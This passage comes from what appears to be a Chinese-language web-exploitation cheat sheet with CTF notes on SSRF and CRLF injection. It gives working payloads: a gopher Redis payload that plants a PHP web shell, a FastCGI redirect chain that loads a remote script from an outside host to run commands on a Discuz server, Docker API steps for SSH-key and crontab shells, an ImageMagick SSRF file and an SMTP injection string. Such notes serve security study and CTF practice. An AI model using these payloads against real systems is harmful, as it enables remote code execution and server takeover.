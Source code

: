     `gopher://127.0.0.1:6379/_FLUSHALL%0D%0ASET%20myshell%20%22%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%3F%3E%22%0D%0ACONFIG%20SET%20DIR%20%2fwww%2f%0D%0ACONFIG%20SET%20DBFILENAME%20shell.php%0D%0ASAVE%0D%0AQUIT`
  - FastCGI
    - default port: 9000
    - example
      - Discuz Pwn
        - 302.php: `<?php
header( "Location: gopher://127.0.0.1:9000/x%01%01Zh%00%08%00%00%00%01%00%00%00%00%00%00%01%04Zh%00%8b%00%00%0E%03REQUEST_METHODGET%0F%0FSCRIPT_FILENAME/www//index.php%0F%16PHP_ADMIN_VALUEallow_url_include%20=%20On%09%26PHP_VALUEauto_prepend_file%20=%20http://kaibro.tw/x%01%04Zh%00%00%00%00%01%05Zh%00%00%00%00" );`
        - x: `<?php system($_GET['cmd']); ?>`
        - visit: `/forum.php?mod=ajax&action=downremoteimg&message=[img]http://kaibro.tw/302.php?.jpg[/img]`
  - MySQL
    - 無密碼認證可以SSRF
    - MySQL Client與Server交互主要分兩階段
      - Connection Phase
      - Command Phase
    - `gopher://127.0.0.1:3306/_<PAYLOAD>`
    - Tool: https://github.com/undefinedd/extract0r-

  - Docker
    - Remote api未授權訪問
      - 開一個container，掛載/root/，寫ssh key
      - 寫crontab彈shell

  - ImageMagick - CVE-2016-3718
    - 可以發送HTTP或FTP request
    - payload: ssrf.mvg
    ```
    push graphic-context
    viewbox 0 0 640 480
    fill 'url(http://example.com/)'
    pop graphic-context
    ```
    - `$ convert ssrf.mvg out.png`


## CRLF injection

### SMTP

SECCON 2017 SqlSRF:

`127.0.0.1 %0D%0AHELO sqlsrf.pwn.seccon.jp%0D%0AMAIL FROM%3A %3Ckaibrotw%40gmail.com%3E%0D%0ARCPT TO%3A %3Croot%40localhost%3E%0D%0ADATA%0D%0ASubject%3A give me flag%0D%0Agive me flag%0D%0A.%0D%0AQUIT%0D%0A:25/`

## FingerPrint
